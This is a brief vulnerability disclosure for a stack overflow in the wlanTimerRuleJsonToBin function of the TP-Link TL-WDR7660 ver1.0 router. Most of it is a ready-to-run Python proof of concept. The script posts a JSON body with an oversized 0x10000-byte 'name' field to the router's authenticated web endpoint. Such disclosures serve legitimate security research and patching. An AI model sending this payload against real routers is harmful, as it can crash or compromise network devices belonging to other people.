


**A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The wlanTimerRuleJsonToBin function is not checked when handling a copy of the important parameter name.It can result in the stack to overflow



**Exploit a vulnerability in the wlanTimerRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"time_switch":{"name":"a"*0x10000,"table":"time_switch","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"a","enable":1,"start_time":"00%3A00","end_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

